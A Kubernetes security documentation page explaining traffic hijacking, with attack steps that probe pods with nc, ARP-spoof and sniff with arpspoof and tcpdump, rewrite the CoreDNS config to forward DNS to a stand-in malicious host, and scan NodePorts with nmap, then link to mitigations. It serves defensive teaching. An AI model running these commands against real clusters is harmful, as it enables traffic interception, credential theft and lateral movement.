 ```yaml
---
sidebar_position: 11
title: "Traffic Hijacking"
description: "How attackers manipulate Kubernetes network traffic to intercept, redirect, or disrupt communication between workloads."
---
```


# Traffic Hijacking

Traffic hijacking in Kubernetes occurs when an attacker intercepts or redirects network communication between workloads. This enables **data theft, service disruption, and man-in-the-middle (MITM) attacks**, especially in environments lacking network segmentation and traffic encryption.

---

## Exploitation Steps: Manipulating Kubernetes Network Traffic

An attacker exploits **missing network policies, insecure service exposure, or DNS misconfigurations** to hijack traffic within the cluster.

### 1. Exploit Missing Network Policies

The attacker checks if restrictive network policies are in place:

```bash
kubectl get networkpolicies --all-namespaces
```

If none exist, they attempt lateral movement from a compromised pod:

```bash
kubectl run attacker-pod --rm -it --image=alpine -- /bin/sh
nc -zv <target-pod-ip> 443
```

Without network segmentation, pods can communicate freely, enabling reconnaissance and access to sensitive services.

---

### 2. Perform Man-in-the-Middle (MITM) Attack

From within a compromised pod, the attacker intercepts traffic using ARP spoofing:

```bash
arpspoof -i eth0 -t <victim-ip> <gateway-ip>
```

Or captures unencrypted data with:

```bash
tcpdump -i eth0 -A port 443
```

This allows them to steal session data, secrets, or API credentials.

---

### 3. Manipulate DNS with Compromised CoreDNS

If **CoreDNS** is misconfigured or lacks validation, the attacker injects rogue entries:

```bash
kubectl edit configmap coredns -n kube-system
```

Example modification:

```yaml
.:53 {
forward . malicious-dns.com
}
```

All DNS traffic is now redirected to attacker-controlled servers, enabling traffic rerouting or phishing.

---

### 4. Abuse Insecure External Service Exposure

If services are exposed using NodePort or LoadBalancer without proper controls, the attacker scans for open ports:

```bash
nmap -p 30000-32767 <cluster-node-ip>
```

Once found, they can access backend services without authentication and extract sensitive data directly.

---

### Result

The attacker successfully intercepts or manipulates network traffic, leading to:

- **Unauthorized access to services and data**
- **Intra-cluster lateral movement**
- **Disrupted communications and workload instability**

---

## Mitigation

➡ [Securing Kubernetes Network Traffic](/docs/best_practices/cluster_setup_and_hardening/network_security/traffic_hijacking_mitigation)
